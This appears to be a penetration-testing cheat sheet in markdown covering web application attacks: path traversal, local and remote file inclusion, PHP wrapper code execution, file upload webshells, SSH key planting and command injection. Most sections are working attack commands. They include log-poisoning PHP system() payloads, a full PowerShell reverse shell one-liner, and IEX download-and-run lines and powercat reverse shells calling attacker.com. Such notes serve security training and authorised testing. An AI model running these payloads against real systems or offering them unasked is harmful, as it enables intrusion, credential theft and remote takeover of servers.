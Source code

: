 
# Common Attacks towards Web Applications

## Directory Traversal

* Test if path traversal is possible
* Windows `C:\Windows\System32\drivers\etc\hosts`
* Linux `/etc/passwd`

Curl

* --path-as-is for ../
* Windows LFI without C:

```bash
curl --path-as-is http://target-URL/public/../../../../../../../../WINDOWS/System32/drivers/etc/hosts
curl --path-as-is http://target-URL/public/../../../../../../../../etc/passwd
```

Intruder Payload

```bash
# single url %2e%2e%2f 
# double url %252e%252e%252f 
res=" "; pattern="../"; for i in {1..10}; do res=$res$pattern; echo $res; done
```

On Windows system, try to read `C:/WINDOWS/System32/drivers/etc/hosts` file first to test for path traversal. Next try to read files of the identified web server and it's configuration file or logs. Try to find sensitive information like username or passwords.

In Linux systems, a standard vector for directory traversal is to list the users of the system by displaying the contents of `/etc/passwd`, check for private keys in their home directory `/home/user/.ssh/id_rsa`, and use them to access the system via SSH.

## Local File Inclusion

The big difference between path traversal and file inclusion (LI) is that LI allows to **execute files** where path traversal only allows to read them. The **code execution** is major attack vector.

Linux Web Servers

* PATH `/var/www/html/login.html.`
* URLs `https://example.com/login.html`
* POIs `https://example.com/cms/login.php?page=en.html`
  * subfolder cms
  * PHP language
  * file inclusion

Windows Web Server

* [LFI](https://gist.github.com/korrosivesec/a339e376bae22fcfb7f858426094661e)
* [IIS Log Management](https://learn.microsoft.com/en-us/iis/manage/provisioning-and-managing-iis/managing-iis-log-file-storage)
* ISS Conf `\inetpub\wwwroot\web.config`
* ISS Logs `\inetpub\logs\LogFiles\W3SVC1\u_ex[YYMMDD].log`
* Apache Conf `/xampp/apache/conf/httpd.conf`
* Apache Logs `/xampp/apache/logs/access.log`
* Apache Logs `/xampp/apache/logs/error.log`
* Sensitive information: user, passwords

The goal of an LFI exploit is to load/include poisoned files with a interpreter to execute code. Log file poisoning allows the attacker to put malicious code written in e.g. PHP/python/ASP/JSP/perl/JS into a log file which gets executed by attacked website. The basic attack vector is the `system` call to execute arbitrary code using URL or POST data payload. (RCE)

More info about webshell can be found here `kali ll /usr/share/webshells/php/`

Example:

* Navigate to `https://example.com/index.php?page=admin.php`
* Include local log file `../../xampp/apache/logs/access.log`
* Identify that controlled User Agent gets logged `Mozilla/5.0`
* Trigger log poisoning with curl -A "user-agent-name-here" e.g. `<?php echo system($_GET['cmd']); ?>`
* Include log file to execute cmd `../../xampp/apache/logs/access.log?cmd=id`

```bash
curl -i -k https://example.com/index.php?page=../../../../../../../../../xampp/apache/logs/access.log
# code allows to run a simple command supplied by the URL (encoding)
curl -i -A "Mozilla/5.2 <?php echo system($_GET['cmd']); ?>"
curl -i -k https://example.com/index.php?page=../../../../../../../../../xampp/apache/logs/access.log&cmd=ps
```

## Remote File Inclusion

* Requires allow_url_include `https://www.php.net/manual/en/filesystem.configuration.php`
* Requires an interpretet language
* See `/usr/share/webshells`

Remote file inclusion (RFI) works like that LFI but has security misconfiguration as precondition. Given the PHP setting `allow_url_include` is active, an attacker can host the include file remotely. It can use a HTTP server to do so and wait for an reverse shell

Example:

* Navigate to `/usr/share/webshells`
* Setup HTTP server `python -m simple.http 80`
* Setup TCP listener (NC reverse shell)
* Navigate to `https://example.com/index.php?page=admin.php`
* Include the remote file `page=http://attacker.com/php-reverse-shell.php`
* Use newly spawned reverse shell on TCP listener

```bash
cp /usr/share/webshells/php/php-reverse-shell.php ~/
sed -i "s/$ip = '127.0.0.1'/$ip = 'attacker.com'/g" php-reverse-shell.php
sed -i "s/$port = 1234/$port = 4444/g" php-reverse-shell.php
python -m simple.http 80
nc -nlvp 4444
curl -k -i https://example.com/index.php?page=http://attacker.com/php-reverse-shell.php
```

## Read Filter and Data Execution

* Requires allow_url_include `https://www.php.net/manual/en/filesystem.configuration.php`
* PHP Read File Filter `https://www.php.net/manual/en/wrappers.php.php`
* PHP Data Execution `https://www.php.net/manual/en/wrappers.data.php`

```bash
# Read File content in Base64 format with php://filter
curl http://example.com/index.php?page=php://filter/resource=admin.php
curl http://example.com/index.php?page=php://filter/convert.base64-encode/resource=admin.php
# Execute Cmd with php://data from
curl "http://example.com/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl "http://example.com/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

## File Upload Vulnerability

* Find file uploads in the app (images, texts, doc)
* Identify programming language
* Try to upload a webshell `/usr/share/webshells`
* Identify underlying OS
* Setup a TCP listener `nc -nlvp 4444`
* Prepare reverse shell e.g. PS `https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3`
* Use the installed webshell and `powershell -enc` to run a base64 encoded reverse shell exploit

```powershell
# Install a PHP webshell
cp /usr/share/webshells/php/simple-backdoor.php ~/simple-backdoor.Php
curl -i -F "fileToUpload=@./simple-backdoor.Php" http://target.com/meteor/upload.php
curl -i http://target.com/meteor/uploads/simple-backdoor.Php?cmd=whoami
# Prepare PS reverse shell
pwsh
$Shell = '$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
# Encode utf-8 and convert to base 64 
$Base64Shell = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($Shell))
# Exploit
nc -nlvp 4444
curl http://target.com/meteor/uploads/simple-backdoor.Php?cmd=powershell%20-enc%20$Base64Shell
...

## File Upload with Path Traversal (but no execution)

* A Linux standard vector is to use SSH key for access
* Combine Path Traversal and File Upload vulnerability
* Upload `authorized_keys` blindly to `/root/.ssh` folder

```bash
# Generate new SSH key
ssh-keygen
cat new-key.pub > authorized_keys
# POST authorized_keys via unprotected upload form and exploit path traversal in filename to override the file into root folder
curl -i -F 'myFile=@./authorized_keys;filename=../../../../../../../../../../root/.ssh/authorized_keys' http://target.com/upload
ssh -i new-key root@target.com
```

## Command Injection

* Shell command seperator %3B = ';'
* e.g. ipconfig;nc attacker.com 4444
* e.g. ";ls #

Test if we run on 'cmd' or 'powershell'

```shell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell 
# URL encode with BURP
%3B%28%64%69%72%20%32%3e%26%31%20%2a%60%7c%65%63%68%6f%20%43%4d%44%29%3b%26%3c%23%20%72%65%6d%20%23%3e%65%63%68%6f%20%50%6f%77%65%72%53%68%65%6c%6c%20
```

Serve Powercat

* NC tool for pwsh `https://github.com/besimorhino/powercat`
* -c IP to connect
* -p Port to connect
* -e executeable to run
* -ep execute Powershell

```bash
# serve via local machine
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
python3 -m http.server 80
nc -nlvp 4444
```

Download Powercat and spawn Reverse Shell

```powershell
# download from github 
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
# download from attacker machine
IEX (New-Object System.Net.Webclient).DownloadString("http://attacker.com/powercat.ps1")
# run PS reverse shell 
powercat -c attacker.com -p 4444 -ep
# another PS version 1.0 reverse shell
https://github.com/martinsohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1
```
